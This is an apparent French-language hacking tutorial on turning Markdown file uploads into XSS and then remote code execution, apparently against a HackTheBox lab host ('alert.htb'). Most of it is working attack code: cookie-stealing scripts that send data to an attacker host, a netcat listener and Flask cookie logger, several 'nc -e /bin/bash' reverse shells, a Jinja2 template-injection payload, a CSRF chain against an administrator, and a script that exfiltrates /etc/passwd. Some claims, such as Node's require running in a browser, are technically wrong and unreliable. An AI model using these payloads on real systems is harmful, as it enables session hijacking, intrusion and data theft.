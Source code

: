 # Exécuter le XSS avec les fichiers au format .md


Lors du téléchargement d'un fichier qui peut être traité par le serveur au format HTML, nous devons garder à l'esprit que tout ce qui se déroule en HTML est probablement vulnérable à XSS (exécution de javascript).

Le fichier markdown est un fichier d'usage courant principalement dans github avec l'extension ".md" (README) dont le but est de décrire un procéssus, une installation etc... une fois ce fichier soumis au serveur, certains serveurs peuvent procéder comme du HTML avant de le stocker. Là, nous pouvons effectuer du XSS comme suit :



📜 Exploit 1️⃣ : XSS avec Markdown → RCE via JavaScript

Si le serveur convertit le Markdown en HTML mais ne filtre pas les balises <script>, on peut injecter du JS malveillant :

# Test d'Injection XSS
<script>
    fetch("http://ton-serveur.com/steal?cookie=" + document.cookie);
</script>

➡️ Impact : Récupération des cookies de session, potentiellement utilisables pour hijacker une session.



📜Exploit 2️⃣ : Injection de code dans un Notebook Jupyter

Si le Markdown est utilisé dans Jupyter Notebook, tu peux exécuter du Python directement :

```python
import os
os.system("nc -e /bin/bash ATTACKER_IP ATTACKER_PORT")

➡️ **Impact :** Remote Code Execution (RCE) si le serveur exécute le Markdown dans un environnement Jupyter.  

---

### **📜 Exploit 3️⃣ : Inclusion de fichiers (`LFI`)**
Si le serveur permet d'inclure du Markdown à partir d'un chemin local, tu peux essayer ceci :

```markdown
![LFI Test](file:///etc/passwd)

➡️ Impact : Lecture de fichiers système sensibles. Si combiné avec RCE, on peut exécuter du code.


📜 Exploit 4️⃣ : Injection Bash via Markdown dans un CMS

Si le serveur exécute des commandes Markdown dans un CMS comme Ghost, certains supports comme Mermaid.js permettent d’exécuter du JavaScript :

```mermaid
graph TD;
A[Click Me] -->|XSS| B("alert('Hacked!')");

➡️ **Impact :** Possibilité de RCE si le serveur exécute du JavaScript malveillant.  

---






📜 Exploit : XSS pour exfiltrer les cookies

Crée un fichier exploit.md avec le contenu suivant :

# Exploit XSS - Vol de Cookies

<script>
  fetch("http://TON_IP:TON_PORT/cookie?data=" + document.cookie);
</script>

🔹 Étapes d'exploitation :

1️⃣ Lancer un serveur d'écoute sur ta machine pour capturer les cookies :

nc -lvnp 9001

2️⃣ Héberger exploit.md sur la cible et le faire afficher dans un navigateur.

3️⃣ Si le XSS fonctionne, le navigateur de la victime exécutera le script et enverra les cookies sur ta machine.

4️⃣ Les cookies s’affichent dans ton Netcat.
🔹 Améliorations possibles :

    Utiliser une requête AJAX invisible pour envoyer les cookies sans alerter l’utilisateur :

<script>
  var i = new Image();
  i.src = "http://TON_IP:TON_PORT/cookie?data=" + document.cookie;
</script>

    Créer un serveur Flask pour loguer les cookies :

from flask import Flask, request

app = Flask(__name__)

@app.route('/cookie')
def log_cookie():
    cookie = request.args.get('data')
    print(f"Cookie volé : {cookie}")
    return '', 204  # Réponse vide

app.run(host='0.0.0.0', port=9001)








🔥 Méthodes pour obtenir un reverse shell via XSS
1️⃣ Si la cible utilise eval() en JavaScript (Exécution locale)

Si l'application exécute du JS avec eval(), tu peux injecter un reverse shell via WebSockets ou fetch :

<script>
eval(require('child_process').execSync('nc -e /bin/bash TON_IP TON_PORT'));
</script>

📌 Problème : Peu de serveurs utilisent eval() dans du JS exécuté côté serveur.
2️⃣ Exploiter une API REST vulnérable

Si l'application fait des requêtes vers une API qui exécute des commandes, tu peux envoyer une requête malveillante avec XSS :

<script>
fetch("http://alert.htb/api/run?cmd=nc -e /bin/bash TON_IP TON_PORT");
</script>

📌 Utile si l’application a une fonctionnalité "Exécuter une commande"
3️⃣ Si le serveur utilise Node.js avec une vulnérabilité dans res.send()

Si l'application tourne sur Node.js et expose des routes vulnérables, essaie :

<script>
fetch("http://alert.htb/admin?name='+require('child_process').exec('nc -e /bin/bash TON_IP TON_PORT')+'");
</script>

📌 Exploitable si le serveur construit dynamiquement des réponses HTML avec des entrées non filtrées.
4️⃣ Transformer l’XSS en SSTI (Server-Side Template Injection)

Si l’application utilise Jinja2, Twig, ou EJS, tu peux injecter une RCE via SSTI :

{{ self._TemplateReference__context.cycler.__init__.__globals__.os.system("nc -e /bin/bash TON_IP TON_PORT") }}

📌 À tester si l’XSS peut être inséré dans une page qui utilise un moteur de template.
5️⃣ Exploiter un administrateur connecté (CSRF + XSS)

Si un admin est connecté, tu peux utiliser l'XSS pour lui faire exécuter un script qui déclenche une RCE sur le serveur via une page vulnérable :

<script>
fetch("http://alert.htb/admin/run?cmd=nc -e /bin/bash TON_IP TON_PORT", { credentials: "include" });
</script>

📌 Fonctionne si l’admin a plus de privilèges et que l'application a une page de gestion de commandes.




<script>
    var url = "messages.php?file=../../../../../../../etc/passwd"
    var attacker = "http://<your-ip-address>:4444/exfil"
    var xhr = new XMLHttpRequest()
    xhr.onreadystatechange = function () {
      if (xhr.readyState == XMLHttpRequest.DONE) {
        fetch(attacker + "?" + encodeURI(btoa(xhr.responseText)))
      }
    }
    xhr.open("GET", url, true)
    xhr.send(null)
</script>

